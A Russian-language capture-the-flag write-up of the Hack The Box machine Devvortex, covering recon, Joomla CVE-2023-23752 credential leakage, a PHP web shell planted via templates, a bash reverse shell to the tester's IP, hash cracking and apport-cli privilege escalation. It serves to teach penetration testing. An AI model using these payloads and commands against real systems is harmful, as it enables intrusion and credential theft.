# Target : 10.10.11.242 aka devvortex.htb

# Reconnaissance (aka intelligence)

## 1. Scan ports

```
└─$ nmap -sV -A -p 80,22 10.10.11.242
Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-03 05:11 EST
Nmap scan report for 10.10.11.242
Host is up (0.10s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://devvortex.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.33 seconds


```

## 2. Check 80 port in browser



## 3. Enumerate directories and files

```
└─$ gobuster dir -u http://devvortex.htb -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://devvortex.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/css                  (Status: 301) [Size: 178] [--> http://devvortex.htb/css/]
/images               (Status: 301) [Size: 178] [--> http://devvortex.htb/images/]
/index.html           (Status: 200) [Size: 18048]
/js                   (Status: 301) [Size: 178] [--> http://devvortex.htb/js/]
Progress: 4723 / 4724 (99.98%)
===============================================================
Finished
===============================================================

```

Ничего интересного. Что ж, попробуем разобраться с виртуальными хостами

## 4. Enumerate vhosts

Запустим gobuster с параметром **vhost**, параметром **--apend-domain** и списком слов **subdomains-top1million-5000.txt**.

```
└─$ gobuster vhost -u devvortex.htb -r -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -t 20 --append-domain
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://devvortex.htb
[+] Method:          GET
[+] Threads:         20
[+] Wordlist:        /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev.devvortex.htb Status: 200 [Size: 23221]
Progress: 4989 / 4990 (99.98%)
===============================================================
Finished
===============================================================
```

И находим виртуальный хост dev.devvortex.htb

**измените /etc/hosts для доступа к этому домену**

## 5. Go to this vhost with browser



Мы видим какое-то веб-приложение

Попробуйте перечислить этот сайт



Найдите URL-адрес **/administrator**. Это панель администратора Joomla.

Вы можете узнать версию Joomla и поискать публичные эксплойты.

```
Также находим robots.txt

# If the Joomla site is installed within a folder
# eg www.example.com/joomla/ then the robots.txt file
# MUST be moved to the site root
# eg www.example.com/robots.txt
# AND the joomla folder name MUST be prefixed to all of the
# paths.
# eg the Disallow rule for the /administrator/ folder MUST
# be changed to read
# Disallow: /joomla/administrator/
#
# For more information about the robots.txt standard, see:
# https://www.robotstxt.org/orig.html

User-agent: *
Disallow: /administrator/
Disallow: /api/
Disallow: /bin/
Disallow: /cache/
Disallow: /cli/
Disallow: /components/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/
```

Позже мы проверяем, что все найденные нами URL-адреса совпадают с файлом **robots.txt**.

```
└─$ dirb http://dev.devvortex.htb

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Dec  7 15:03:24 2023
URL_BASE: http://dev.devvortex.htb/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://dev.devvortex.htb/ ----
==> DIRECTORY: http://dev.devvortex.htb/administrator/                                                                                                            
==> DIRECTORY: http://dev.devvortex.htb/api/                                                                                                                      
==> DIRECTORY: http://dev.devvortex.htb/cache/                                                                                                                    
==> DIRECTORY: http://dev.devvortex.htb/components/                                                                                                               
+ http://dev.devvortex.htb/home (CODE:200|SIZE:23221)                                                                                                             
==> DIRECTORY: http://dev.devvortex.htb/images/                                                                                                                   
==> DIRECTORY: http://dev.devvortex.htb/includes/                                                                                                                 
+ http://dev.devvortex.htb/index.php (CODE:200|SIZE:23221)                                                                                                        
==> DIRECTORY: http://dev.devvortex.htb/language/                                                                                                                 
==> DIRECTORY: http://dev.devvortex.htb/layouts/                                                                                                                  
==> DIRECTORY: http://dev.devvortex.htb/libraries/                                                                                                                
==> DIRECTORY: http://dev.devvortex.htb/media/                                                                                                                    
==> DIRECTORY: http://dev.devvortex.htb/modules/                                                                                                                  
==> DIRECTORY: http://dev.devvortex.htb/plugins/                                                                                                                  
+ http://dev.devvortex.htb/robots.txt (CODE:200|SIZE:764)                                                                                                         
==> DIRECTORY: http://dev.devvortex.htb/templates/                                                                                                                
==> DIRECTORY: http://dev.devvortex.htb/tmp/  
```

## 6. Далее в метасплоите находим скрипт для получения версии Joomla.

Запустить базу данных метасплоита

```
sudo msfdb start
```
Запустить метасплоит

```
sudo msfconsole
```

Поиск скриптов для получения версии Joomla
```

msf6 > search joomla

```
Использовать вспомогательные и устанавливать параметры

```
msf6 > use auxiliary/scanner/http/joomla_version

msf6 auxiliary(scanner/http/joomla_version) > show options

Module options (auxiliary/scanner/http/joomla_version):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the Joomla application
   THREADS    1                yes       The number of concurrent threads (max one per host)
   VHOST                       no        HTTP server virtual host

msf6 auxiliary(scanner/http/joomla_version) > set RHOSTS 10.10.11.242
RHOSTS => 10.10.11.242
msf6 auxiliary(scanner/http/joomla_version) > set VHOST dev.devvortex.htb
VHOST => dev.devvortex.htb

```
Запускаем скрипт и получаем версию

```
msf6 auxiliary(scanner/http/joomla_version) > run

[*] Server: nginx/1.18.0 (Ubuntu)
[+] Joomla version: 4.2.6
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

## 7. Находим версию Joomla CMS **4.2.6**

Ищем в Google публичные эксплойты для этой версии Joomla и находим свежую уязвимость CVE-2023-23752.
Также ищем эксплойт и находим вот этот PoC https://github.com/adhikara13/CVE-2023-23752


# Initial access and exploitation 

## 8. Прочтите документацию по эксплойтам и запустите этот скрипт.

```

└─$ python3 CVE-2023-23752.py -u dev.devvortex.htb -o dump.txt
[+] => Vulnerable dev.devvortex.htb
User: lewis Password: P4ntherg0t1n5r3c0n## Database: joomla
File Saved => dump.txt

```

Эта уязвимость позволяет вам сбросить пароль администратора Joomla и сохранить его в файле dump.txt.

## 9. Зайдите в панель администрирования и авторизуйтесь



И мы зашли в админку

Далее нам нужно как-то загрузить веб-оболочку, а именно PHP-файл, поскольку Joomla написана на PHP.

Найдите в Google технику использования для загрузки веб-оболочки в Joomla и найдите метод шаблонов.
Перейдите в Система => Шаблоны сайтов => Детали и файлы Кассиопеи.
и нажмите «Новый файл»



## 10. Создайте новый файл php и напишите простую веб-оболочку PHP.

```php
<?php system($_GET["cmd"]); ?>
```



И позже нажмите «Сохранить и закрыть».



Перейдите по URL-адресу нашей полезной нагрузки ave.php и проверьте выполнение команды.
У нас есть доступ к веб-шеллу, но нам нужен полный доступ к оболочке.

## 11. Запустите обратную оболочку с помощью метода обратного запуска (stager).

Создайте каталог www и создайте файл с этим содержимым.

```bash

bash -i >& /dev/tcp/10.10.14.187/9001 0>&1

```
**Не забудьте сменить его на свой IP для HTB VPN**

```

Выполните в этом каталоге эту команду для запуска простого http-сервера.

└─$ python3 -m http.server                                    
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

```
Это необходимо для загрузки сценария оболочки с нашей полезной нагрузкой обратной оболочки.

## 12. Запустить обратную оболочку

Давайте перехватим команду веб-шелла с помощью burp и введем туда команду для загрузки и запуска нашей обратной оболочки.
через команду curl с перенаправлением вывода на стандартный ввод в интерпретаторе bash



```

└─$ python3 -m http.server                                    
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.242 - - [07/Dec/2023 16:13:12] "GET /shell.sh HTTP/1.1" 200 -

```
Наш стейджер загружается в систему и выполняется с помощью bash, и у нас есть оболочка.




# Postexploitation and Privilage escalation

## 13. Проверьте интересные файлы

Перейдите по пути к конфигурации базы данных Joomla и найдите учетные данные для базы данных.



## 14. Подключиться к MySQL

Подключитесь к MySQL и покажите базы данных

```bash
mysql -u lewis -p

```


```sql
mysql> show databases;
mysql> use joomla;
mysql> show tables;
mysql> select username,password from sd4fg_users;
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| lewis    | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |
| logan    | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |
+----------+--------------------------------------------------------------+
2 rows in set (0.00 sec)

```
У нас есть два хеша: наш пользователь Льюис и неизвестный пользователь logan.

Скопируйте хэш и сохраните его в файл john.hash для брутфорс-атаки **john the ripper**.

## 15. Брутфорсинг хеша с Джоном

```
john --wordlist=/usr/share/wordlists/rockyou.txt john.hash 
```


У нас есть пароль для входа пользователя logan

## 16. Подключиться по ssh или su

Подключитесь к серверу с ssh в качестве логина пользователя.

Показать разрешения sudo для выполнения команды

```bash
logan@devvortex:~$ sudo -l
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```

И посмотрите полное разрешение sudo для неизвестных утилит apport-cli.

Найдите информацию о том, как повысить привилегии с помощью этой утилиты, и найдите этот метод.

посмотрите эту утилиту и найдите CVE для локального повышения привилегий.

https://github.com/diego-tella/CVE-2023-1326-PoC командой:

```bash
sudo apport-cli -p ssh -f rep.crash --save rep.crash /usr/sbin/sshd
```

создайте еще один файл сбоя и запустите команду эксплойта

```bash
sudo /usr/bin/apport-cli -c /tmp/rep.crash
press V (view report)
!/bin/bash
```



И у нас есть права root!!!